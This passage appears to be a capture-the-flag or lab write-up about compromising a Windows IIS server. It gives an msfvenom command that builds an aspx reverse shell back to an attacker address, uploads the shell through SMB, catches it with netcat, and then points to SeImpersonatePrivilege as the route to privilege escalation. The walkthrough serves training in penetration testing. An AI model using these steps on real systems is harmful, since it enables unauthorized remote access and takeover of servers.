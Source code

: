 ![Untitled](Untitled%202.png)

- We have idea that we will add the reverse shell and run the Path URL to catch the listen. After that we can gain access initial the web server.
- Firstly, we generate the shell by msfvenom and format we choose is .aspx ( This is extension design for framework [ASP.NET](http://ASP.NET)  so that will be stable with IIS server)

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP-Machine> lport=1234 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3418 bytes
Saved as: shell.aspx
```

- Secondly, we will upload shell into SMB shares through uploading SMBclient `put shell.aspx`

![Untitled](Untitled%203.png)

- Finally, run Path URL with shell and catch the listen with netcat.

![Untitled](Untitled%204.png)

![Untitled](Untitled%205.png)

# Privilege Escalation

- View all priveleges

```bash
c:\Users\Bob\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

—> SeImpersonatePrivilege is Enabled so we can abuse it to escalate ‘Admin’.

- Let research some info about SeImpersonatePrivilege to find method to abuse it.
- We can check in link: https://github.com/gtworek/Priv2Admin
